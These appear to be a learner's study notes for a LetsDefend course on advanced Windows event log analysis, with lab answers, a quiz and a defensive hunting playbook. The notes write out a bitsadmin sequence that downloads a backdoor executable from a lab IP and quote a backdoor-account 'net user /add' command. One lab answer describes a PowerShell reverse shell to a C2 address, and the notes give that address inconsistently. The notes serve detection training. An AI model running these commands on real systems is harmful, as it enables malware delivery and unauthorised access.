








# LetsDefend Incident Responder Path: Advanced Event Log Analysis | Notes

Following on from my Event Log Analysis notes, this one covers the more advanced module in the Incident Responder Path. This module goes deeper into specific 
log sources - process creation, DNS, file/folder auditing, BITS, network connections, and MSI installers - and for each one it's really the same 
shape: how do you turn the setting on, what do the fields actually mean, and what does it look like when something bad happens versus something normal.

I'm keeping the explanations a bit fuller than 'summarized', since a lot of the value here isn't just "filter for this Event ID" - it's understanding 
why that log source exists in the first place and what legitimate activity looks like next to it, so you don't drown in false positives once you 
actually try to use this in a real environment.

---

## Table of Contents

1. [Process Creation](#process-creation)
   - [Questions](#questions)
2. [DNS Activity](#dns-activity)
   - [Questions](#questions-1)
3. [File/Folder Monitoring](#filefolder-monitoring)
   - [Questions](#questions-2)
4. [BITS Client Event Log](#bits-client-event-log)
   - [Questions](#questions-3)
5. [Network Connections Event Log](#network-connections-event-log)
   - [Questions](#questions-4)
6. [MSI Event Logs](#msi-event-logs)
   - [Questions](#questions-5)
7. [Appendix A - Quiz](#appendix-a--quiz)
8. [Appendix B - Event ID Cheat Sheet](#appendix-b--event-id-cheat-sheet)
9. [Appendix C - Blue Team Hunting Playbook](#appendix-c--blue-team-hunting-playbook)

---

## Process Creation

Process creation events are logged by Windows as **Event ID 4688** whenever a new process starts, assuming the setting is enabled - it isn't by default. Each event captures the time, the process name, the parent process, and (optionally, but you really want this on) the full command line.

A "process" here is just any running application. On a normal workday, dozens or hundreds of processes start and stop across a workstation without incident. Malware is no different in mechanism - it also just starts processes - the difference is in *which* processes, *what* parameters they're given, and *what spawned them*. If an attacker gets remote access, they interact with the system by launching processes, same as anyone else would. Logging process creation is how you catch that.

The command line matters more than people expect. Knowing that `powershell.exe` ran tells you almost nothing - powershell runs constantly for entirely legitimate reasons. Knowing the *exact command line* it ran with - an encoded command, a download cradle, a reverse shell - tells you everything.

### Configuring process audit logs

1. Open **Group Policy Editor** (search "edit group policy").
2. Navigate to `Computer Configuration > Windows Settings > Security Settings > Advanced Audit Policy Configuration > Audit Policies > Detailed Tracking > Audit Process Creation`.
3. Set it to **Success**.
4. To also capture the command line itself, go to `Computer Configuration > Administrative Templates > System > Audit Process Creation`, open **"Include Command Line in Process Creation Events"**, set it to **Enabled**, and apply.

### Analysis

Once configured, filter Windows Security logs for **Event ID 4688**. The key fields:

| Field | What it tells you |
|---|---|
| Account Name | The user account that executed the process |
| New Process Name | The process that was launched (what caused this event) |
| Creator Process Name | The parent process - critical for spotting suspicious relationships, e.g. `word.exe` spawning `cmd.exe` or `powershell.exe` is a red flag |
| Process Command Line | The full command and arguments passed to the process |

A concrete example: an event shows `net.exe` spawned by `cmd.exe`, with the command line `net user Supp0rt LetsDefendEventLogs /add`. `net.exe` is a native Windows binary used to manage users and groups. Here it's obviously being used to create a backdoor account (MITRE **T1136 - Create Account**) - and because command-line auditing was enabled, the analyst also gets the newly created account's password for free, straight from the log.

This one field - the command line - is often the difference between "a process ran" (useless on its own) and "here's exactly what the attacker did and what credentials they now control" (immediately actionable). Every enterprise environment should have this enabled and centrally logged.

### Questions

1. An incident occurred on 23 February 2024. What network protocol was used to communicate with C2?

Opened the log file via Event Viewer and filtered for Event ID 4688 for information concerning the running process. The first event contained an obfuscated PowerShell command which creates a PowerShell reverse TCP shell. It connects to 46[.]23[.]199[.]76:4444, waits for commands from the remote host, executes them locally via Invoke-Expression, and sends the results back - effectively giving the attacker interactive remote control of the compromised system.

Ans: tcp

2. What is the parent process of the process that leads to the C2 beaconing?

Ans: C:\Windows\System32\cmd.exe



---

## DNS Activity

DNS is often called the phonebook of the internet, and that makes it one of the most valuable log sources available to a defender. Before almost any protocol (HTTP(S), SMTP, etc.) establishes a connection, the software involved - malware included - typically needs DNS to resolve a domain to an IP first. That means DNS logs capture a much broader picture than just web traffic; they capture *every* domain an endpoint has tried to reach, regardless of what protocol eventually used that resolution.

DNS is also nearly universally available, even in tightly restricted network segments where outbound HTTP(S) might be blocked outright - endpoints can often still resolve domain names, giving them at least an indirect line to the internet. That reach is exactly what makes DNS attractive to attackers for command-and-control, data exfiltration, or DNS tunneling - and exactly why DNS logging is essential for catching it.

### Enabling DNS logging

Open Event Viewer, navigate to `Applications and Services Logs > Microsoft > Windows > DNS Client Events/Operational`, right-click, and select **Enable Log**. (If it's already enabled you'll see "Disable Log" in the same spot instead.)

### Analysis

Three Event IDs matter here:

- **Event ID 3006** - a DNS query was made for a specific domain. This is the client-side query itself.
- **Event ID 3010** - the internal DNS server sent a query onward to a nameserver for that domain. This confirms the query actually left the local resolver and was forwarded.
- **Event ID 3011** - a response was received back from that domain's server.

Together, these three let you reconstruct: *what was queried, did the query actually go out, and did we get an answer back.* If you already have another indicator of compromise (say, a C2 stager identified through process logs), you can pivot into DNS logs around that same timestamp to find the domain the stager was actually trying to reach.

### Questions

1. What is the malicious domain that was contacted around 2 minutes after the execution of the beacon?

I opened the DNS logs in Event Viewer and filtered for Event ID 3010, which indicates the DNS server sent a query to a nameserver. Since the question specified this query happened roughly 2 minutes after the beacon, I focused on the time range around 3:05 AM that same day.

Ans: thebestgourmetsauce.com

2. When was the DNS query called for this domain? Please answer in UTC.

This asked for the timestamp of the same event found in the DNS logs. Remember to follow the answer format provided by LetsDefend, or you'll end up submitting way more times than you should (learned that one the hard way).

Ans: 2024-02-23 03:05:53



---

## File/Folder Monitoring

For any organization storing sensitive data on file servers, auditing access to that data isn't optional. Proper monitoring can catch unwanted file access - including read events on sensitive files - before it turns into full-blown data exfiltration. This section covers both the configuration and how to read the resulting events.

### Configuring file/folder monitoring

1. Go to `Computer Configuration > Windows Settings > Security Settings > Local Policies > Audit Policy > Audit Object Access`, and enable both **Success** and **Failure**.
2. Go to the specific folder you want monitored, open **Properties > Security > Advanced > Auditing**, and click **Add**.
3. Under "Select a principal," choose who to monitor - entering **Everyone** audits activity from any user or group.
4. Set the **Type** dropdown to **All**, so both successes and failures are captured.
5. In "Applies to," leave the default scope so the folder, all subfolders, and all files within are covered.
6. Under "Basic permissions," select **Full control**, then click OK.

### Analysis

Two Event IDs matter most here: **4656** and **4663**.

**Event ID 4656** is logged when an object is *requested* - i.e. someone attempted to access it. Key fields:
- The user account that requested access
- The **Object Name** - what's actually being accessed (e.g. a file called `Secret.txt` inside a `Top Secret` folder)
- The process making the request (e.g. `explorer.exe` if the file was opened through File Explorer, or `notepad.exe` if it was opened directly in Notepad)

**Event ID 4663** is logged when that access attempt *actually succeeds or fails*. This is the important distinction: **4656 on its own doesn't mean access happened** - it only means access was requested. You need to see 4663 with an "Audit Success" keyword to confirm the access actually went through. "Audit Failure" on the same event ID means access was denied.

This becomes especially useful when the *process* accessing a sensitive file is something unexpected - `cmd.exe` or `powershell.exe` touching a sensitive document is a very different story than `explorer.exe` or a normal document viewer doing the same thing, and can point toward scripted access or automated exfiltration.

### Questions

1. What is the name of the directory in the "Documents" folder? This directory is related to a secret project and implies that some insider threat accessed it.

I relied on the Security event logs for this, then filtered for Event IDs 4656 and 4663. Since there were a lot of events, I used the Find option to search for the event containing "Documents."

Ans: Project_Pegasus_Clearenceonly



2. At what time was this directory accessed by the user?

Ans: 2024-02-23 02:59:59

3. Which process is responsible for accessing the secret folders?

I checked the process name for the same event found in the previous question.

Ans: C:\Windows\explorer.exe

---

## BITS Client Event Log

**Background Intelligent Transfer Service (BITS)** was introduced with Windows XP to coordinate uploading and downloading large files without interrupting the user - Windows Update is a classic legitimate consumer of BITS. Applications create BITS "jobs" containing files to transfer, the BITS service handles them in a service host process, and it can schedule transfers for any time, tracking job/file/state info in a local database.

Like a lot of built-in Windows technology, BITS is just as usable by attackers as by legitimate software. Because file transfers happen inside a trusted service host process, BITS can slip past firewall rules that block unfamiliar or unsigned processes, and it obscures which actual application requested the transfer. It's also schedulable - meaning transfers don't need to depend on a long-running visible process or the task scheduler, both of which are more commonly monitored.

### How an attacker abuses bitsadmin (LOLBin)

```text
bitsadmin /create letsdefend_eventlogs
```
Creates a BITS job named `letsdefend_eventlogs`.

```text
bitsadmin /addfile letsdefend_eventlogs http://172.17.79.137/backdoor.exe C:\Users\letsdefend\documents\file.exe
```
Sets the job's parameters - the remote URL to fetch from, and the local path to save the file to.

```text
bitsadmin /resume letsdefend_eventlogs
```
Resumes (starts) the job, which triggers the actual download.

```text
bitsadmin /complete letsdefend_eventlogs
```
Marks the job complete. The BITS session stays open until this flag is used.

### Analysis

The relevant logs live under `Applications and Services Logs > Microsoft > Windows > Bits-Client > Operational`.

| Event ID | Meaning |
|---|---|
| 3 | A BITS job was created - includes the job name, job ID (useful for tracking related events), and job owner |
| 16403 | Job parameters were set - check the Details tab rather than General, since it clearly shows RemoteName (the source URL/IP) and LocalName (the destination file path). This is where most of your IOCs come from |
| 59 | The job was started/resumed |
| 60 | The job was stopped - check the status code here: `0x0` means the download succeeded |
| 4 | The job was completed (fires only if `/complete` was actually run) - the file count tells you how many files moved during the job |

Worth noting: the exact same event sequence applies whether the job is being used for downloading malware *or* exfiltrating data out - the direction doesn't change which events fire.

**Summary:**
- Event ID 3 - job created
- Event ID 16403 - job parameters defined
- Event ID 59 - job started/resumed
- Event ID 60 - job stopped (check status code)
- Event ID 4 - job completed

### Questions

1. What is the name of the BITS transfer job made to transfer a malicious file?

I opened the Bits-Client operational logs to answer this set of questions, and filtered for Event IDs 3, 16403, 59, 60, and 4 to reconstruct what actually happened. The job name showed up in both Event ID 3 and 16403.

Ans: remote_clean_service

2. Where was the downloaded file saved on the local system? Answer with the full path of the file on disk.

Ans: C:\Users\LetsDefend\AppData\Local\Temp\wsman_service.exe

3. What is the remote URL that was used to download the malicious binary?

Ans: `http://172.17.79.137/wsman_service.exe`



---

## Network Connections Event Log

Network connection logging lets you monitor traffic, spot suspicious connections, track how specific applications behave on the network, and investigate incidents directly. If you're logging network connections *alongside the process that initiated them*, you can correlate the two immediately - for example, catching an infostealer the moment it starts phoning home, purely from this one log source.

### Configuring audit event logs

Enable auditing of Windows Filtering Platform logs via `Local Group Policy Editor > Computer Configuration > Windows Settings > Security Settings > Advanced Audit Policy Configuration > System Audit Policies > Object Access > Audit Filtering Platform Connection`. This logs network connections including the process responsible.

### Analysis

The relevant event is **Event ID 5156** in Security logs. A typical suspicious example: an outbound connection to `13.235.67.159` on port `4444`, made by a **PowerShell** process. PowerShell independently making outbound connections is already unusual, and port 4444 specifically is heavily associated with Meterpreter - so this combination is a strong red flag on its own.

Key fields:

| Field | Meaning |
|---|---|
| Name of the Application | The process making the connection |
| Direction | Inbound or outbound |
| Source Address and Port | The local system's IP and port |
| Destination Address and Port | The remote IP and port being connected to |

Use this log source to catch C2 activity, infostealer beaconing, or botnet traffic. Two things worth checking every time: whether the *process* making the connection is one that should reasonably be making outbound connections at all, and whether the *destination IP* has any reputation in threat intel sources like VirusTotal. An IP might turn out to be an innocuous cloud VPC - or it might be attacker infrastructure. Don't assume either way without checking.

### Questions

1. What is the remote C2 IP address that was connected by the process from Lesson 1 Lab?

Remember I found this: 46[.]23[.]199[.]76:4444 in the Lesson 1 lab? That makes answering questions 1 and 2 straightforward.

Ans: `46.23.119.76`

2. Which port was used in C2 communication?

Ans: 4444

3. The attacker used an MSI on the endpoint. This MSI installed a program called Cheat Lab, which made multiple network connections. Identify all these IPs and find the IP address which is the most malicious one and has the least reputation.

Since we're still focusing on the same day, I filtered the Security logs for Event ID 5156 for network connection info. I used the Find action to filter for events containing "cheat," and queried the outbound IP addresses I found against VirusTotal.

The IPs I found:
- `208.95.112.1` - 1/91 detections
- `162.125.81.15` - 0/91
- `192.229.221.95` - 0/91
- `162.125.81.18` - 0/91
- `213.248.43.58` - 11/91 - this was the IP with the least reputation

Ans: `213.248.43.58`



---

## MSI Event Logs

**MSI** (formerly Microsoft Installer) is Windows' standard installation package format, used to deploy applications and OS components with minimal user interaction - installing via MSI usually feels about as simple as running an executable.

That simplicity is also the risk. It can be genuinely hard to tell a legitimate MSI installer apart from a malicious one, and threat actors regularly disguise malicious MSIs as trustworthy software updates. MSI also runs with the **LocalSystem account (NT AUTHORITY\SYSTEM)**, so unauthorized use of that access can lead directly to broader compromise. Because MSI is built on COM structured storage, attackers can embed malicious files inside an MSI and control what gets dropped and executed via custom actions - giving them multiple execution paths for infecting a target machine through what looks like an ordinary installer.

### Analysis

Filter Application logs, then go to **Filter Current Log > Event Sources**, and select **MsiInstaller**. This surfaces every MSI-related event.

| Event ID | Meaning |
|---|---|
| 1040 | An install or uninstall process for an MSI has begun - includes the full path of the MSI and the process ID |
| 11707 | Paired with 1040, confirms whether an installation or uninstallation actually took place |
| 1033 | Indicates whether the installation validated and the product installed successfully - includes product name, version, and manufacturer. A status code of `0` means it installed without errors. Especially useful for catching malware disguised as a fake MSI, or a legitimate MSI that's been tampered with as part of a supply chain attack |
| 1034 | The installed product was removed - malware often uninstalls itself right after completing its objective (e.g. after dropping a persistence mechanism or backdoor) |

### Questions

1. What is the name of the malicious MSI?

Ans: Cheat Lab 2.7.2.msi




2. What is the process ID of the process that installs the malicious MSI?

Ans: 7856

3. Who is the manufacturer of this MSI?

Ans: Cheat Lab Inc.



---

## Appendix A - Quiz

**Q1.** Which event ID can be used in security audit logs to analyze process execution activity?
- 4625
- 4886
- 4688 (correct)
- 4104

**Q2.** In DNS activity event logs, which Event ID is crucial in determining whether a successful query response was received from the remote server/domain?
- 3011 (correct)
- 3010
- 3006
- 3005

**Q3.** A sensitive document is suspected to have been exfiltrated in an incident. To verify this claim, you need to make sure this file was successfully accessed or not around the time of the suspected incident. What Event ID should you look for?
- 4656
- 4565
- 4665
- 4663 (correct)

**Q4.** Suppose you are threat hunting for T1197 in your environment. You need to know the timestamp to determine when the activity associated with this technique ended, to build a timeline. Which event ID should you be hunting for?
- 60
- 16703
- 4 (correct)
- 59

**Q5.** To determine the timeline when a weaponized MSI payload uninstalled itself after establishing persistence, which event ID would you look for to validate this defense evasion action?
- 1033
- 1034 (correct)
- 1035
- 1040


---

## Appendix B - Event ID Cheat Sheet

| Log Source | Event ID | Meaning |
|---|---|---|
| Process Creation | 4688 | New process created (enable command-line auditing separately) |
| DNS Client | 3006 | DNS query made for a domain |
| DNS Client | 3010 | DNS server forwarded query to nameserver |
| DNS Client | 3011 | Response received from domain server |
| File/Folder Auditing | 4656 | Object access requested (not yet confirmed) |
| File/Folder Auditing | 4663 | Object access succeeded or failed (check Audit Success/Failure keyword) |
| BITS-Client Operational | 3 | BITS job created |
| BITS-Client Operational | 16403 | BITS job parameters set (RemoteName/LocalName - check Details tab) |
| BITS-Client Operational | 59 | BITS job started/resumed |
| BITS-Client Operational | 60 | BITS job stopped (check status code - `0x0` = success) |
| BITS-Client Operational | 4 | BITS job completed |
| Security (Filtering Platform) | 5156 | Network connection made, with responsible process |
| Application (MsiInstaller) | 1040 | MSI install/uninstall began |
| Application (MsiInstaller) | 11707 | Confirms install/uninstall completion |
| Application (MsiInstaller) | 1033 | Install validated + product info (status `0` = success) |
| Application (MsiInstaller) | 1034 | Product uninstalled |

**Quick correlation pairs:**

| Question you're answering | Event IDs to pair |
|---|---|
| Did this file access actually happen, or just get requested? | 4656 -> 4663 |
| Did this download actually succeed? | 16403 (params) -> 60 (status code) -> 4 (completed) |
| What triggered this outbound connection? | 4688 (process + command line) -> 5156 (destination IP/port) |
| Was this MSI a legitimate install or something else? | 1040 -> 1033 (validation) -> 1034 (self-uninstall, if present) |
| What domain did this process resolve right before connecting out? | 4688 (timestamp) -> 3006/3010/3011 (DNS around same time) |

---

## Appendix C - Blue Team Hunting Playbook

### 1. None of this works until auditing is turned on
Every log source in this document is **off by default** in Windows. Command-line logging on 4688, object access auditing for file/folder monitoring, Filtering Platform Connection auditing for 5156 - these all require deliberate configuration via Group Policy before they generate anything useful. Baseline this across the environment before you ever need it during an incident; you cannot retroactively enable logging for an attack that already happened.

### 2. Command-line auditing is disproportionately valuable
A huge amount of the detection power in this document comes from a single setting: including the command line in process creation events. Process name alone tells you almost nothing (`powershell.exe` running is normal); the command line is what turns a routine-looking event into an obvious red flag (`net user Supp0rt LetsDefendEventLogs /add`). If you can only turn on one additional audit setting in an environment, this is the one.

### 3. Correlate across log sources, not just within one
The strongest investigative technique running through this whole document is pivoting between sources using a shared timestamp:
- A suspicious process (4688) around the same time as a suspicious DNS resolution (3006/3010/3011)
- A file access request (4656) confirmed or denied by the matching 4663
- A BITS job's parameters (16403) followed through to its actual completion status (60, 4)
- An MSI installation (1040/1033) followed by its own later self-removal (1034)

Treat every event ID here as half a story - the other half is usually a nearby event on a different log, a few seconds or minutes away.

### 4. Watch for legitimate infrastructure being abused, not just "malicious" tools
Several of the attack techniques described here don't use custom malware at all - `bitsadmin`, `net.exe`, and MSI installers are all native, signed Windows components. None of them are inherently suspicious. Detection has to be behavioral: an unusual destination URL in a BITS job, an unfamiliar account being created via `net user`, an MSI manufacturer name that doesn't match anything expected in the environment. Don't rely on tool-name blocklists for any of this - they won't help here.

### 5. Reputation-check destinations, don't just trust volume of connections
When triaging multiple outbound IPs (as in the Cheat Lab example), don't assume the busiest or most numerous connections are the malicious ones. Run every distinct destination through a threat intel source and let actual detection ratios guide prioritization - in that example, the least-connected IP turned out to be the most malicious one by reputation.

### 6. Build this into a centralized SIEM, not local Event Viewer only
